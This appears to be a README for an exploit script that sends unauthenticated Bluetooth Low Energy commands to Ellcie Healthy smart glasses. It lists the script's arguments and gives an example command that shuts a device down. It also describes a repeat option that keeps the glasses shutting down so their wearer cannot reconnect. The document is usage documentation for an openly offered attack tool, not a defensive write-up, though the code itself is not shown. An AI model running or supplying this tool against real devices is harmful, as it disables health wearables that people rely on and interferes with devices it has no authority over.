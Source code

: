 # Ellcie Healthy glasses : Remote Command Execution


>    usage: ellcieExploiter.py [-h] --address ADDRESS --action {BEEP,SHUTDOWN}   [--init {1,0}] [--keepsending {1,0}] 


Arguments:

	 -h, --help            show this help message and exit
	 --address ADDRESS     Glasses BLE addresses
	 --action {BEEP,SHUTDOWN, CHANGE_DEVICE_NAME, PRINT_INFOS} Action to be executed 
	 --init {1,0}          Should the script activate bluetooth
	 --keepsending {1,0}   Should we keep sending the request ? Doing so will
	                       constantly send the action. That means for example if
	                       you jam the device and send the shutdown request, the
	                       user won't be able to reconnect again, as the device
	                       with again and again shutdown.


### Example 

    python3 ellcieExploiter.py  --address=E7:60:74:B4:98:3E --init=0 --keepsending=1 --action=SHUTDOWN


### Video 
https://youtu.be/WyEZmGCzc6s
https://youtu.be/fmF9yqJvT5s
